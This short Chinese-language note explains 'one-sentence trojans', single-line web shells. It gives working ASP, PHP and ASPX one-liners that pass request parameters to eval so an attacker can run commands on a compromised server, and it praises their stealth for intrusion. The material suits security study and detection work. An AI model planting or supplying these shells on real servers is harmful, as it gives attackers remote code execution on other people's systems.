# yi-ju-hua-mu-ma

一句话木马短小精悍，而且功能强大，隐蔽性非常好，在入侵中始终扮演着强大的作用。

常用一句话木马 asp一句话木马： `<%execute(request(“value”))%>` php一句话木马： `<?php @eval($_POST[value]);?>` aspx一句话木马： `<%@ Page Language=“Jscript”%>` `<%eval(Request.Item[“value”])%>`

把需要执行的php脚本片段，通过密码pass参数传给服务器端，服务器通过eval函数进行执行。 可以看出，一句话木马的本质是PHP,ASP\(ASPX\)语言具有eval函数，使之具有了动态性，基于动态性，攻击者就可以把命令传给服务器端的一句话木马进行执行。

